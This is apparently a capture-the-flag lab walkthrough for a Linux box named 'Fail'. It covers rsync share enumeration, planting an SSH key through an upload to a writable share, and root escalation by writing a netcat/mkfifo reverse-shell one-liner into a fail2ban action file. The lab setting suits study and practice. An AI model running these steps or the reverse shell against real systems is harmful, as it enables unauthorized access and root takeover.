 ```yaml
---
Alias: Fail
Date: 5/3/2022
Platform: Linux
Difficulty: Intermediate
Tags:
Status: Finished
IP: 
---
```


# {{Fail}}


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- nmap
- gobuster

---

# Information Gathering
Scanned all TCP ports:
```bash

```

Enumerated open TCP ports:
```bash
873
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 873

#### -Per googling port 873 enumeration I found "hacktricks" website showing to type "nmap -sV --script "rsync-list-modules" -p <PORT> <IP>" to enumerate shares:

![](Pasted%20image%2020221015215909.png)

#### -Found share "fox" typing "nmap -sV --script "rsync-list-modules" -p 873 192.168.143.126":

![](Pasted%20image%2020221015220513.png)
#Rsync 

#### -Per googling port 873 enumeration I found the below web page showing how to list files/directory from rsync server

![](Pasted%20image%2020221015220950.png)

![](Pasted%20image%2020221015221123.png)

#### -Typed "rsync -r 192.168.143.126::fox " and found the below files/directories showing user "fox" home directory and then downloaded all files/directories onto local machine by typing "rsync -av fox@192.168.143.126::fox/ ."

![](Pasted%20image%2020221015221356.png)

![](Pasted%20image%2020221015221635.png)

#### -Found nothing interesting reading the files
	
#### -Tested if I can upload files users "fox" home directory by typing "echo "hello world" > testfile.txt" and typing "rsync testfile.txt -r 192.168.143.126::fox" to see if it uploaded to fox's home directory. And I found I can:

![](Pasted%20image%2020221015221837.png)

#### -The directions how to find out how to do this was found on the previous website showing the following: 

![](Pasted%20image%2020221015222046.png)

#### -Googled "port 873 enumeration" and found the following page from hacktricks showing how to copy all files from your  local machine to the rsync server:

![](Pasted%20image%2020221015222900.png)


#### Then copied all rsync files to kali machine

---

# Exploitation
## Name of the technique

#### -Typed the following commands to create an authorized_keys file in fox's home directory so I can log in via SSH session:
-"mkdir fox" 
-"cd fox"
-"mkdir .ssh"
-"cd .ssh" 
-"touch id_rsa.pub" 
-"ssh-keygen -t rsa" 
-[Enter file in which to save the key (/home/kali/.ssh/id_rsa):] "/home/kali/Downloads/ProvingGroundsBoxes/Fail/fox/.ssh/id_rsa.pub"
-[Enter passphrase (empty for no passphrase):] "password"
-[Enter same passphrase again:] "password"
-"sudo mv id_rsa_pub authorized_keys"
-"cd .."
-"rsync -avp fox/ fox@192.168.120.149::fox/"

#### -Navigated to directory where the "id_rsa" file was created after running "ssh-keygen -t rsa" and typed "chmod 600" to create the correct permissions for the private ssh key

#### -Typed "ssh -I id_rsa fox@192.168.143.126" and typed in "password" for the password and received an ssh session as user fox

![](Pasted%20image%2020221016090756.png)

---

# Privilege Escalation
## Local Enumeration

#### -Ran "LunEnum.sh" script and found user "fox" is an owner of "fail2ban" group:

![](Pasted%20image%2020221016091122.png)

#### -Googled "fail2ban privilege escalation" and found the following webpage showing the steps to escalate privileges:

![](Pasted%20image%2020221016091817.png)

![](Pasted%20image%2020221016091921.png)

![](Pasted%20image%2020221016092000.png)

![](Pasted%20image%2020221016092047.png)

![](Pasted%20image%2020221016092139.png)

![](Pasted%20image%2020221016092235.png)
#Fail2BanPrivilegeEscalation 

---

## Privilege Escalation vector
## Fail2Ban group privelege escalation

#### -Per steps above I navigated to "/etc/fail2ban/action.d" folder and typed "ls –la" and found group "fail2ban" has write priviliges on file "iptables-multiport-log.conf":

![](Pasted%20image%2020221016100412.png)

#### -Typed "vim iptables-multiport-log.conf" and typed "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc [my kali IP] >/tmp/f" to execute a reverse shell on port 85 (syntax found in www.revshells.com) towards the end of the file in vim

![](Pasted%20image%2020221016100629.png)

#### -Ran a "penelope" listener on kali machine listening on port 85

#### -Typed "ssh @fox192.168.236.126" and typed in random passwords just to make "fail2ban" block my IP found in the steps to escalate privileges on the aforementioned website and then received a root shell on my "penelope" listener: 
---

